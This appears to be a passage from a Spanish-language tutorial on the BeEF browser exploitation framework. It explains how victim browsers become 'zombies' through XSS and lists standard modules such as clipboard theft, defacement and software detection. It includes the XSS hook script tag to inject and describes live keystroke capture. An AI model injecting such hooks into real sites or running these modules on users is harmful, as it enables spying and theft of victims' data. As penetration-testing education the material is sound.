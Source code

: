 ![BeEF arquitectura](https://thehackerway.files.wordpress.com/2015/07/victimbeef.png "BeEF C&C")

## Concepto de zombies

En Beef el concepto de “Zoombie” se refiere a un cliente (de ahora en adelante, Zoombie es equivalente a navegador web de la víctima) que ha sido objeto de un ataque XSS apoyado por Beef, para que esto pueda ser llevado a cabo, es necesario que en primera instancia, el script correspondiente a la inyección de código XSS sea el que beef proporciona al momento de arracar (Hook). Posteriormente, el script que enseñe beef en dicha opción es el que debe de ser inyectado en el zoombie, actualmente dicho script es este: **<script src=”http://localhost/beef/hook/beefmagic.js.php“></script>**

Por otro lado, otras de las características interesantes es la posibilidad de ver en tiempo real las teclas ingresadas por el Zoombie, así como la página que se encuentra visualizando en todo momento, lo que sin lugar a dudas es una característica sumamente interesante.

## Modulos Estandar

Los módulos estándar son útiles para la detección de software instalado, módulos y demás características en un Zoombie, consisten en el envió de determinadas peticiones a la víctima (zoombie) por medio del puente establecido gracias a la vulnerabilidad XSS explotada, es muy útil para recolectar información y/o otras actividades que si no son utilizadas de forma responsable, pueden hacer sospechar a la víctima. Los módulos estándar en Beef son:
Alert Dialog: Consiste en el envió de un alert JavaScript con un texto personalizado al Zoombie seleccionado

- **Clipboard Theft**: Intenta capturar el “tablón” de copias del zoombie con el fin de acceder a documentos y elementos que se han copiado allí.

- **Deface Web Page**: Intenta escribir un mensaje de texto personalizado en el contexto de la pagina del zoombie.

- **Detect Flash**: Intenta determinar si el zoombie soporta flash y la versión que tiene instalada, el resultado puede verse en el panel de la derecha de la interfaz de administración en la sección de “Log Summary junto con todos los demás mensajes que han salido por log”

- **Detect Java**: Intenta determinar si el zoombie soporta Java y la versión que tiene instalada, el resultado puede verse en el panel de la derecha de la interfaz de administración en la sección de “Log Summary junto con todos los demás mensajes que han salido por log”

- **Detect Plugins**: Intenta determinar los plugins que soporta el zoombie, el resultado puede verse en el panel de la derecha de la interfaz de administración en la sección de “Log Summary” junto con todos los demás mensajes que han salido por log

- **Detect QuickTime**: Determina si QuickTime se encuentra instalado en el zoombie seleccionado

- **Detect Software**: Intenta determinar que software se encuentra instalado en el zoombie (en el caso de que existan extensiones de terceras partes instaladas).

- **Detect Unsafe ActiveX**: Intenta determinar si el navegador objetivo tiene políticas de seguridad mal configuradas en los controles ActiveX, como resulta claro, esto solamente es valido todas las versiones de Internet Exporer.

- **Detect VBScript**: Intenta determinar si Visual Basic Script es soportado por el zoombie.

- **Detect Virtual Machine**: Intenta determinar si el zoombie se encuentra en una maquina virtual.
